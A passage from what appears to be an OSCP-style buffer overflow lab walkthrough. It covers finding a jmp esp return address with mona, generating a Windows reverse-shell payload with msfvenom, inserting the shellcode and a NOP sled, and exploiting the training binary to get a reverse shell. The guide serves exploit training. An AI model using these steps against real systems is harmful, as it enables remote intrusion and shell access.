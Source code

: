 ## Finding a Jump Point

#### With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):
```
!mona jmp -r esp -cpb "\x00"
```
#### This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

#### Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

## Generate Payload

#### Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
#### Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

## Prepend NOPs

#### Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```
# Exploit!
#### With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

